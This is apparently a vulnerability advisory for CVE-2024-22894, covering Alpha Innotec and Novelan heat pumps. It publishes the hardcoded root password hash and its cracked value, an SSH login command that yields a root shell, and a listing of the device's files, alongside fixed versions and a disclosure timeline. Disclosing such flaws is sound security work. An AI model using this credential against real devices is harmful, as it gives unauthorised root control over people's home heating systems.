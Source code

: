 # CVE-2024-22894
Downloaded the latest heatpump firmware version `wp2reg-V3.88.0-9015` of [https://www.heatpump24.com/DownloadArea.php](https://www.heatpump24.com/DownloadArea.php?layout=2).
Within this firmware is a file called : `wp2reg-V3.88.0-9015\wp2reg-AlphaInnotech-prod\home.wp2reg-V3.88.0-9015_221213\share\shadow`

This contains a 3DES encrypted password `root:MEfgX2vrPJzuE:0:0:99999:7:::` of the system root user and when decrypted/cracked (within 5 seconds) show the password `eschi`.

When you connect my heatpump to the network using a network cable, you can use the 'root' user and the found password to login onto the SSH service that is available. 
```
> ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes256-cbc root@$IP
$IP's password: eschi
# id
uid=0(root) gid=0 groups=0
# uname -a
Linux [...]  2.6.33.20 #3 PREEMPT Wed Oct 24 14:25:34 CEST 2018 armv5tejl GNU/Linux
```
This vulnerability is applicable to all the  Alpha Innotec and Novelan heatpumps, running the Luxtronic controller.
It is verified and addressed by AIT Deutschland, the OEM of Alpha Innotec and Novelan and the vulnerability is present in the following firmware versions:

* Versions prior to `V2.88.3`
* Versions prior to `V3.89.0`
* Versions prior to  `V4.81.3`

The heat pump needs to be connected to the network using a LAN (RJ-45) connection to misuse it. 
According to Shodan there are still 47 heatpumps connected to the internet using the same SSH version and fingerprint, that could be compromised using this exploit.

Once exploited could cause a lot of damage, by changing settings or removing the whole configuration/software causing the heat pump to malfunction or crash.
For example, the home directory contains the following files that could be intresting for an attacker:


```
# ls -alh /home
total 7448
drwxr-xr-x    5 root     0           4.8K Jan 12 08:59 .
drwxr-xr-x   14 root     0            992 Aug  1  2011 ..
drwxr-xr-x    3 root     0            224 Jan  1  1970 .update
-rw-rw-rw-    1 root     0          92.3K Jul 20  2022 10Min_1
-rw-rw-rw-    1 root     0          92.3K Sep 15  2022 10Min_2
-rwxrwxrwx    1 root     0          22.3K Jan 13  2021 ASB.bin
-rwxrwxrwx    1 root     0          23.3K Jul 15  2019 ASB_BL_Switch.bin
-rwxrwxrwx    1 root     0          22.1K Jul 15  2019 ASB_bootloader.bin
-rwxrwxrwx    1 root     0           1.2K Jun 16  2021 Defines.txt
-rwxrwxrwx    1 root     0          15.7K Jun 14  2021 HZIO.lin
-rw-rw-rw-    1 root     0            648 Jan  3 18:55 Info.dti
-rwxrwxrwx    1 root     0          15.3K Jul 24  2020 LD2AG.lin
-rwxrwxrwx    1 root     0          37.5K Jul 15  2019 LWD.lin
-rwxrwxrwx    1 root     0          26.8K Feb  8  2021 LWD45.lin
-rwxrwxrwx    1 root     0          38.8K Jul 15  2019 LWD90.lin
-rwxrwxrwx    1 root     0          37.9K Jul 15  2019 LWDRev.lin
-rwxrwxrwx    1 root     0          40.0K Jun 16  2021 LuxConst.sqlite
-rwxrwxrwx    1 root     0          26.9K Jul 24  2020 MSW_15.lin
-rwxrwxrwx    1 root     0          28.4K Jul 24  2020 MSW_Inverter.lin
-rw-rw-rw-    1 root     0         435.2K Jan 12 08:59 NewProc
-rw-rw-rw-    1 root     0           8.8K Jan  1 01:00 ParamArchive_1704067200
[...]
-rw-rw-rw-    1 root     0           8.8K Jan 12 01:00 ParamArchive_1705017600
-rwxrwxrwx    1 root     0          96.9K Jul 15  2019 SEC.bin
-rwxrwxrwx    1 root     0          31.6K Jul 15  2019 SWP.lin
-rwxrwxrwx    1 root     0          30.6K Jul 15  2019 SWPH.lin
-rwxrwxrwx    1 root     0          30.4K Jul 15  2019 SWPH291.lin
drwxrwxrwx    2 root     0            648 Apr 25  2023 Webserver
-rwxrwxrwx    1 root     0           5.0M Jun 16  2021 appl
-rwxrwxrwx    1 root     0            147 Jul 15  2019 appl.cfg
-rw-rw-rw-    1 root     0           8.8K Jan 12 08:59 appl_param1
-rw-rw-rw-    1 root     0           8.8K Jan 12 06:59 appl_param2
-rwxrwxrwx    1 root     0           9.4K Jul 15  2019 bootloader.lin
-rw-r--r--    1 root     0          20.0K Jan  1 05:10 default.sqlite
-rw-r--r--    1 root     0              0 Jan  1  1970 default.sqlite-wal
-rw-rw-r--    1 root     0             56 Sep 15  2022 errlog
-rw-r--r--    1 root     0          42.9K Apr  1  2011 firmware
-rwxrwxrwx    1 root     0            391 Jul 15  2019 index.html
-rwxrwxrwx    1 root     0          35.2K Jun 16  2021 lang_CR
[...
-rwxrwxrwx    1 root     0          37.8K Jun 16  2021 lang_tr
drwxr-xr-x    2 root     0            360 Jan  1  1970 share
-rwxrwxrwx    1 root     0             37 Jul 15  2019 timezone
-rwxrwxrwx    1 root     0           1.1K Jul 15  2019 udhcpc.script
```

### Fixed versions

* `V2.88.3` or higher
* `V3.89.0` or higher
* `V4.81.3` or higher
  
### Timeline

 * [13-06-2023] Responsible Disclosure to: AIT-Deutschland (OEM), Alpha Innotec (Brand), Novelan (Brand), Nathan (Dutch reseller).
 * [19-06-2023] Answer from AIT-Deutschland to schedule a meeting.
 * [22-06-2023] Meeting with AIT-Deutschland about the vulnerability.
 * [01-07-2023 - 01-12-2023] AIT-Deutschland develops fix for the vulnerability
 * [14-12-2023] Gathering information for the CVE details.
 * [10-01-2024] Meeting with AIT-Deutschland about submitting the CVE details.
 * [26-01-2024] CVE ID CVE-2024-22894 assigned.
 * [30-01-2024] CVE-2024-22894 published.

### Credits
Credits go to AIT-Deutschland for taking this issue seriously and fixing it with priority.
